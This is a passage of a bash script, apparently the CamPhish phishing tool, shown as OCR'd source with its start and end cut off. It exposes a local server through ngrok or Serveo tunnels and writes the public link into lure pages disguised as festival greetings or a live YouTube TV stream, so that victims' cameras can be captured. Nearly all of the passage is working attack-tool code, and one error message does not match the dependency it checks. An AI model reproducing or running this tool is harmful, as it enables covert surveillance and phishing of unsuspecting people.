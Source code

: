 link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[0-9a-z]*\.ngrok.io")
printf "\e[1;92m[\e[0m*\e[1;92m] Direct link:\e[0m\e[1;77m %s\e[0m\n" $link

payload_ngrok
checkfound
}

camphish() {
if [[ -e sendlink ]]; then
rm -rf sendlink
fi

printf "\n-----Choose tunnel server----\n"    
printf "\n\e[1;92m[\e[0m\e[1;77m01\e[0m\e[1;92m]\e[0m\e[1;93m Ngrok\e[0m\n"
printf "\e[1;92m[\e[0m\e[1;77m02\e[0m\e[1;92m]\e[0m\e[1;93m Serveo.net\e[0m\n"
default_option_server="1"
read -p $'\n\e[1;92m[\e[0m\e[1;77m+\e[0m\e[1;92m] Choose a Port Forwarding option: [Default is 1] \e[0m' option_server
option_server="${option_server:-${default_option_server}}"
select_template
if [[ $option_server -eq 2 ]]; then

command -v php > /dev/null 2>&1 || { echo >&2 "I require ssh but it's not installed. Install it. Aborting."; exit 1; }
start

elif [[ $option_server -eq 1 ]]; then
ngrok_server
else
printf "\e[1;93m [!] Invalid option!\e[0m\n"
sleep 1
clear
camphish
fi

}


payload() {

send_link=$(grep -o "https://[0-9a-z]*\.serveo.net" sendlink)
sed 's+forwarding_link+'$send_link'+g' template.php > index.php
if [[ $option_tem -eq 1 ]]; then
sed 's+forwarding_link+'$link'+g' festivalwishes.html > index3.html
sed 's+fes_name+'$fest_name'+g' index3.html > index2.html
else
sed 's+forwarding_link+'$link'+g' LiveYTTV.html > index3.html
sed 's+live_yt_tv+'$yt_video_ID'+g' index3.html > index2.html
fi
rm -rf index3.html

}

start() {

default_choose_sub="Y"
default_subdomain="saycheese$RANDOM"
